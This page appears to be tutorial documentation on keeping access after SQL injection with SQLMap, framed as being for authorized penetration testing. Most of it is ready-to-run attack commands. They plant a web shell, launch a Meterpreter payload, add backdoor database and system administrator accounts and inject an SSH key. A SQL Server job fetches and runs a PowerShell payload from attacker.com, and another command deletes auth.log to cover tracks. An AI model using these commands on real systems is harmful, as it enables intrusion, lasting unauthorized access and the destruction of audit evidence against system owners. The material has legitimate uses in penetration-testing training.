 ```yaml
---
title: Maintaining Access
description: Learn how to establish persistent access using SQLMap's advanced techniques
---
```



SQLMap provides several methods to establish persistent access to vulnerable systems after successful SQL injection exploitation. These techniques are valuable for authorized penetration testing scenarios where maintaining access is part of the assessment scope.

## Backdoor Deployment Options

### Web Shell Deployment

SQLMap can deploy a web shell to maintain access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

This uploads a local file to the target web server directory, allowing subsequent access through the web interface.

### Metasploit Integration (--os-pwn)

To establish a Meterpreter session:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This command:
1. Generates a Metasploit payload
2. Uploads it to the target server
3. Executes it to establish a Meterpreter session
4. Connects back to your Metasploit handler

### SMB Relay Attack (--os-smbrelay)

For Windows targets:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```

This establishes access using SMB relay techniques, which can be effective in Windows environments.

## Database-Level Persistence

### Creating Database Backdoor Users

To create a new database user with administrative privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';"
```

This creates a new database user that can be used for future access.

### Scheduled Tasks and Jobs

For SQL Server, you can create a SQL Agent job:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --sql-query="EXEC msdb.dbo.sp_add_job @job_name='maintenance', @enabled=1; EXEC msdb.dbo.sp_add_jobstep @job_name='maintenance', @step_name='step1', @command='EXEC xp_cmdshell ''powershell -c \"IEX (New-Object Net.WebClient).DownloadString(''''http://attacker.com/payload.ps1'''')\"'''; EXEC msdb.dbo.sp_add_jobschedule @job_name='maintenance', @name='daily', @freq_type=4, @freq_interval=1, @active_start_time=010000;"
```

This creates a scheduled job that executes a command periodically.

## System-Level Persistence

### Creating System Users

On Unix-based systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="useradd -m -p $(openssl passwd -1 password123) backdoor && usermod -aG sudo backdoor"
```

On Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="net user backdoor password123 /add && net localgroup administrators backdoor /add"
```

### SSH Key Deployment

To add an SSH key for persistent access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --file-write="id_rsa.pub" --file-dest="/home/user/.ssh/authorized_keys"
```

This adds your public key to the authorized_keys file, allowing SSH access without a password.

## Covering Tracks

After establishing persistence, it's important to clean up evidence:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="rm -f /var/log/auth.log"
```

## Best Practices for Authorized Testing

When maintaining access during authorized penetration tests:

1. Document all persistence mechanisms deployed
2. Use unique identifiers for all created accounts and files
3. Set up proper cleanup procedures for after the test
4. Ensure all persistence mechanisms are removed at the end of testing
5. Coordinate with the system owners about the persistence methods used

Remember that the goal of security testing is to improve security, not to compromise it. Always follow responsible disclosure practices and the agreed-upon rules of engagement.
